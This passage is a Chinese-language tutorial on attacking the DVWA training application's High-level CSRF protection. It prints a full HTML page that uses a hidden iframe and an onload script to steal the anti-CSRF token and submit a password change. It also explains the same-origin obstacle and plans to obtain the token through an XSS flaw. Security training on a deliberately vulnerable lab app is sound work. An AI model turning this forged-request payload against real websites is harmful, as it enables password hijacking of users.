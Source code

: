 ```
<script type="text/javascript">       
    function attack()       
  {       
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;       
  document.getElementById("transfer").submit();        1
  }       1
</script>       1
<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">       1
</iframe>       2
<body onload="attack()">       2
  <form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">       2
   <input type="hidden" name="password_new" value="password">       2
    <input type="hidden" name="password_conf" value="password">       3
   <input type="hidden" name="user_token" value="">       3
  <input type="hidden" name="Change" value="Change">       3
   </form>       3
</body>
```




攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。



然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架iframe访问的地址是[http://192.168.153.130/dvwa/vulnerabilities/csrf](http://192.168.153.130/dvwa/vulnerabilities/csrf)，位于服务器192.168.153.130上，而我们的攻击页面位于黑客服务器10.4.253.2上，两者的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以我们的攻击脚本是不可能取到改密界面中的user\_token。



由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.153.130中，才有可能完成攻击。下面利用High级别的XSS漏洞协助获取Anti-CSRF token（因为这里的XSS注入有长度限制，不能够注入完整的攻击脚本，所以只获取Anti-CSRF token）。



 [![1.png](http://image.3001.net/images/20161031/14778957473585.png!small)](http://image.3001.net/images/20161031/14778957473585.png)



这里的Name存在XSS漏洞，于是抓包，改参数，成功弹出token



 [![1.png](http://image.3001.net/images/20161031/1477895775866.png!small)](http://image.3001.net/images/20161031/1477895775866.png)



注入代码如下



 [![1.png](http://image.3001.net/images/20161031/14778958053271.png!small)](http://image.3001.net/images/20161031/14778958053271.png)
